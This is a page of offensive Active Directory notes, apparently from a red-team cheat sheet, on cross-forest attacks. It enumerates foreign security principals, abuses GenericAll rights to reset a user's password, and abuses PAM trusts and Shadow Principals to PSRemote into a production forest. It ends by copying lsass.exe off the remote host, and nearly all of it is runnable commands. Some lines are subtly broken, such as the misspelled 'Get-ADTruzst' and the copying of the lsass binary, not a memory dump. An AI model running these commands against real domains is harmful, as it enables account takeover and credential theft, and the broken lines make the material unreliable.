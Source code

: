 ## Foreign Security Principal (FSP)

- allows external forests trust or special identities (e.g. Authenticated Users, Enterprise DCs, etc.) to be added to domain local security groups (for example Authenticated Users)
- can be enumerated with PowerView’s `Find-ForeignGroup` or `Find-ForeignUser`, or with AD Module’s `Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"}`
    - then enumerate the group with  `Get-ADGroup -Filter * -Properties Member -Server other_forest.local | ?{$_.Member -match '<SID>'}`
    - can also do `Get-DomainUser -Domain other_forest.local |
    ?{$_.ObjectSid -eq '<SID>'}` to find user with particular SID

## ACLs

- ACLs may grant certain principals to access resources or have `GenericAll` or `GenercWrite` on identities cross-forest (principals added to these ACLs are not displayed in the ForeignSecurityPrincipals container)
    - only principals in a domain local security group are in the ForeignSecurityPrincipals container
- with `GenericAll` you can reset a user’s password with `Set-DomainUserPassword -Identity 0xd4y -AccountPassword (ConvertTo-SecureString 'Follow0xd4y' -AsPlainText -Force) -Domain other_domain.local`

## PAM Trust

- usually enabled between Bastion or Red Forest and prod/user forest
- allows high-privileged access to prod forest without needing credentials from a bastion forest
    - requires the creation of Shadow Principals in bastion domain that are mapped to DA or EA in prod forest

```powershell
Get-ADTrust -Filter *
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local

# Enumerate if PAM trust exists
$bastiondc = New-PSSession bastion-dc.bastion.local
Invoke-Command -ScriptBlock {Get-ADTruzst -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc

# Check members of Shadow Principals
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc

# Configure WSMan to allow PSRemoting via IP Address
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force

# PSRemote into prod_forest
Enter-PSSession <PROD_FOREST_IP_ADDRESS> -Authentication NegotiateWithImplicitCredential
```

- note when PSRemoting using an IP address, you must use NTLM authentication
- you can then use `Copy-Item -Path C:\Windows\System32\lsass.exe -FromSession $prodsession -Destination 'C:\Users\Administrator\lsass.exe'` to copy the lsass.exe file on the remote session to the local machine
